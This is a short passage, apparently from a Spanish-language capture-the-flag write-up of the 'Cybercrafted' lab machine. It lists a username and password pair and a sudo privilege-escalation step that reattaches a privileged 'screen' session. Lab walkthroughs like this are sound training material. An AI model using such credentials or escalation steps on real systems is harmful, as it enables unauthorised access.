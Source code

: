 ```
cybercrafted : JavaEdition>Bedrock
```

![20231121190531.png](20231121190531.png)

#### Usuario - cybercrafted

Teniendo credenciales validad para este usuario, procedemos a enumerar y podemos ver que el usuario puede ejecutar `/usr/bin/screen -r cybercrafted` de manera privilegiada

![20231121191915.png](20231121191915.png)

Por lo que ejecutamos

```php
sudo /usr/bin/screen -r cybercrafted
```

![20231121191813.png](20231121191813.png)
